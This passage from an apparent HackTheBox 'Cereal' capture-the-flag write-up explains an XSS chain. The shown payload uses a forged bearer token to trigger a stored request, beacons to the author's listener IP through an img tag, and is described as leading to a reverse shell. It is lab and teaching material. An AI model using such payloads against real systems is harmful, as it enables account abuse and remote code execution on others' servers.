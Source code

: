 I was also surprised `atob`{:style="color:orange"} actually works with an array argument, thats kinda strange, but it looks like it is actually made to handle arrays.

Finally, I figured it out... It seems that the array `toString`{:style="color:orange"} method doesn't actually put brackets in the resulting string, so it ends up working with `atob`{:style="color:orange"} by complete coincidence 😅

![40](/assets/images/HTB/Cereal/40.png)

## Getting a User Shell

Now enough of all this JS magic. Now it is time to write a code that'll actually trigger the payload.<br />
The first step will be to actually submit the payload and get it's ID, which is in this case is 30

![41](/assets/images/HTB/Cereal/41.png)

As for the JS payload
```js
<script>var xhttp = new XMLHttpRequest;
xhttp.open("GET", "https://127.0.0.1/requests/30", true);
xhttp.setRequestHeader("Authorization", "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJibGFoYmxhaCI6IjEiLCJuYmYiOjE2MjIyNTE4NjIsImV4cCI6MTYyMjg1NjY2MiwiaWF0IjoxNjIyMjUxODYyfQ.W_8JmuRzsXOtOMsFaS2Z6N5aV56J0IV-01_-vPl6gGQ");
xhttp.send``;</script>
<img src="http://10.10.16.251:8000/WootWootx"/>
```
	


then I'll base64 encode that payload and replace it with the one in `atob`{:style="color:orange"}, send it, and wait till i get a hit on my python server and the reverse shell actually is uploaded

Also, for debugging purposes, I added that `img` tag at the end so that it'll send a request to my listener when the js code is executed. that way, I can know when the admin is executing my js payload.
